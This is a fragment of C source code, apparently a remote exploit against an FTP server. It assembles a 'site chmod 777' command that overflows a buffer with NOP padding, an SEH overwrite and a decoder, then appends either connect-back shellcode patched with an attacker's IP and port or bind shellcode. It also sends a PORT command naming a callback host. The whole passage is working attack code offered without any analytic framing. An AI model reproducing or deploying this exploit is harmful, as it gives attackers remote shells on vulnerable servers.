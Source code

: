             sprintf(penetrate, "PORT %s,%d,%d\r\n", cbHost2, shport/256, shport%256);

            //printf("%s", penetrate);
        }
        else
        {
            sprintf(penetrate,"TYPE I\r\n");
        }

        // fill the "site chmod" command
        strcpy(szCommand, "site chmod 777 ");

        // fill the directory
        if(szDirectory[0])
            strcat(szCommand, szDirectory);

        // fill the egg
        for(i=0;i<seh_offset%8;i++)
            strcat(szCommand, "\x90");
        //strcat(szCommand, "BBBB");

        // fill the seh
        for(i=0;i<=(seh_offset/8)*8+0x20;i+=8)
        {
            strcat(szCommand, JMP_OVER);
            memcpy(&szCommand[strlen(szCommand)], &targets[iType].dwJMP, 4);
        }

        // fill the decode
        strcat(szCommand, decode);

        // fill the shellcode start sign
        strcat(szCommand, sc_start);

        // fill the shellcode
        if(bCb)
        {
            // connectback shellcode
            shport2 = htons(shport)^(u_short)0x9393;
            cbip = inet_addr(cbHost)^0x93939393;
            memcpy(&cbsc[PORT_OFFSET], &shport2, 2);
            memcpy(&cbsc[IP_OFFSET], &cbip, 4);
            strcat(szCommand, cbsc);
        }
        else
        {
            // bind shellcode
            shport2 = htons(shport)^(u_short)0x9393;
            memcpy(&sc[BIND_OFFSET], &shport2, 2);
            strcat(szCommand, sc);
        }

        // fill the shellcode end sign
        strcat(szCommand, sc_end);

        // send end
        strcat(szCommand, "\r\n");
